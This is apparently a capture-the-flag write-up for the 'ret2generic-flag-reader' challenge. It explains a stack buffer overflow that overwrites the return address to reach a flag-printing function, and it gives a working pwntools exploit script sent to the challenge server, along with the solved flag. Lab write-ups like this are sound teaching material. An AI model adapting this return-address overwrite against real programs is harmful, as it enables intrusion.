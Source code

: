 # ret2generic-flag-reader

<p align="center">
    <kbd><img src="images/ret2generic-1.png" caption="Challenge" /></kbd><br/>
</p>

From the source, I understand that I need to overwrite the ret address to the address of super_generic_flag_reading_function_please_ret_to_me() function

Since the variable comments_and_concerns has a size of 32, I need to spray 40 random characters (32 bytes for the variable “comments_and_concerns” and 8 bytes for the stored rbp) and then the address of super_generic_flag_reading_function_please_ret_to_me() function

To start, find the address of super_generic_flag_reading_function_please_ret_to_me() function <br />
`$ p super_generic_flag_reading_function_please_ret_to_me` <br />
<p align="center">
    <kbd><img src="images/ret2generic-2.png" caption="Challenge" /></kbd><br/>
</p>

Create a script to perform the exploit
```
from pwn import *

payload = ("A"*40).encode()
eip = p64(0x4011f6)
payload = payload + eip
p = remote("mc.ax", 31077)
#p = process('./ret2generic-flag-reader')
p.recvuntil("this is genius")
p.sendline(payload)
p.interactive()
```

<p align="center">
    <kbd><img src="images/ret2generic-3.png" caption="Challenge" /></kbd><br/>
</p>

Flag: `flag{rob-loved-the-challenge-but-im-still-paid-minimum-wage}`